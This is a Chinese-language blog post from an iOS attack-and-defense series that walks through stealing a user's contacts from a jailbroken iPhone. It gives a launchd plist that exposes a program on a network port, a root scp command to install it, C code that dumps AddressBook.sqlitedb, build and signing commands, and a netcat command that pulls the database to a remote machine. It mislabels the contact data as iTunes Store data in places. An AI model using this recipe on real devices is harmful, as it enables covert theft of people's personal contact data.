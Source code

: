 title: iOS攻防——（二）如何窃取用户的通讯录信息
date: 2016-07-12 21:31:24
tags:
  - iOS
  - iOS攻防
categories:
  - iOS
  - iOS攻防
---

# 说明
2016年7月15更新，最近试了一下，发现用nc拿不到数据了，拿数据的代码是没有问题的，直接运行可以拿到数据，但是从mac通过IP和端口拿到的.sqlitedb文件是空文件，博主也正在看为什么~大家有兴趣可以一起找一下原因。

# 简介
本文章基于念茜的iOS攻防系列。
本文将会讲解如何窃取用户的通讯录信息。
同样在越狱手机环境下。

# hack
## 1. 需要一个plist
需要这样一个plist，它看起来是这样：

![](http://7xt4xp.com1.z0.glb.clouddn.com/blog_iOS%E6%94%BB%E9%98%B2%E2%80%94%E2%80%94%EF%BC%88%E4%BA%8C%EF%BC%89%E5%A6%82%E4%BD%95%E7%AA%83%E5%8F%96%E7%94%A8%E6%88%B7%E7%9A%84iTunesstore%E4%BF%A1%E6%81%AF-01.png)

<!--more-->

源文件是这样：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>Program</key>
	<string>/usr/bin/hack</string>
	<key>StandardErrorPath</key>
	<string>/dev/null</string>
	<key>SessionCreate</key>
	<true/>
	<key>ProgramArguments</key>
	<array>
		<string>/usr/bin/hack</string>
	</array>
	<key>inetdCompatibility</key>
	<dict>
		<key>Wait</key>
		<false/>
	</dict>
	<key>Sockets</key>
	<dict>
		<key>Listeners</key>
		<dict>
			<key>SockServiceName</key>
			<string>55</string>
		</dict>
	</dict>
</dict>
</plist>

```

SockServiceName指的是通信名称
将plist文件传送到至iPhone/System/Library/LaunchDaemons/ 下 

```
scp /Users/zhoulingyu/Desktop/hack.plist root@192.168.31.152:/System/Library/LaunchDaemons/hack.plist
```



## 2. 了解一下OS X的启动原理

> 1. mac固件激活，初始化硬件，加载BootX引导器。
> 2. BootX加载内核与内核扩展(kext)。
> 3. 内核启动launchd进程。
> 4. launchd根据/System/Library/LaunchAgents、/System/Library/LaunchDaemons、/Library/LaunchDaemons、Library/LaunchAgents、~/Library/LaunchAgents里的plist配置，启动服务守护进程

解释一下：
> LaunchDaemons是用户未登陆前就启动的服务（守护进程）
> LaunchAgents是用户登陆后启动的服务（守护进程）

几个目录下plist文件格式及每个字段的含义：

| Key | Description | Required
| :-------------: | :------------- | :-----: |
| Label | The name of the job | yes |
| ProgramArguments | Strings to pass to the program when it is executed | yes |
| UserName | The job will be run as the given user, who may not necessarily be the one who submitted it to launchd. | no |
| inetdCompatibility | Indicates that the daemon expects to be run as if it were launched by inetd | no |
| Program | The path to your executable. This key can save the ProgramArguments key for flags and arguments. | no |
| onDemand | A boolean flag that defines if a job runs continuously or not | no |
| RootDirectory | The job will be?chrooted?into another directory | no |
| ServiceIPC | Whether the daemon can speak IPC to launchd | no |
| WatchPaths | Allows launchd to start a job based on modifications at a file-system path | no |
| QueueDirectories | Similar to WatchPath, a queue will only watch an empty directory for new files | no |
| StartInterval | Used to schedule a job that runs on a repeating schedule. Specified as the number of seconds to wait between runs. | no |
| StartCalendarInterval | Job scheduling. The syntax is similar to cron. | no |
| HardResourceLimits | Controls restriction of the resources consumed by any job | no |
| LowPriorityIO | Tells the kernel that this task is of a low priority when doing file system I/O | no |
| Sockets | An array can be used to specify what socket the daemon will listen on for launch on demand | no |

iOS基本类似，我基本是参照这个来的。

所以上面的plist实际上是要求系统启动一个进程。
一个名为`hack`的进程，可执行文件的路径是/usr/bin/hack。

## 3. 编写读取通讯录数据程序
iTunes Store的数据都在`/var/mobile/Library/AddressBook/AddressBook.sqlitedb`中，只要能能拿出AddressBook.sqlitedb就可以非法拿到用户的数据。


那么现在编写一个程序：

```c
#include <stdio.h>   
#include <fcntl.h>   
#include <stdlib.h>   
   
#define FILE "/var/mobile/Library/AddressBook/AddressBook.sqlitedb"   
   
int main(){   
    int fd = open(FILE, O_RDONLY);   
    char buf[128];   
    int ret = 0;   
       
    if(fd < 0)   
        return -1;   
    while (( ret = read(fd, buf, sizeof(buf))) > 0){   
        write( fileno(stdout), buf, ret);   
    }   
    close(fd);   
    return 0;   
}  
```

用同样的方法编译、传输：

```
xcrun -sdk iphoneos clang -arch armv7 -o hack hack.c
```

签名：

```
ldid -S hack
mv hack /usr/bin
```

## 4. 抓取 iTunesstore 数据信息
利用netcat，指定之前定义的服务名称，抓取设备 iTunesstore 信息：

```
nc 192.168.31.152 55 > itunesstored2.sqlitedb
```

OK，在MAC查看一下内容。


----

有什么问题都可以在博文后面留言，或者微博上私信我，或者邮件我 <coderfish@163.com>。

博主是 iOS 妹子一枚。

希望大家一起进步。

我的微博：[小鱼周凌宇](http://weibo.com/coderfish/)


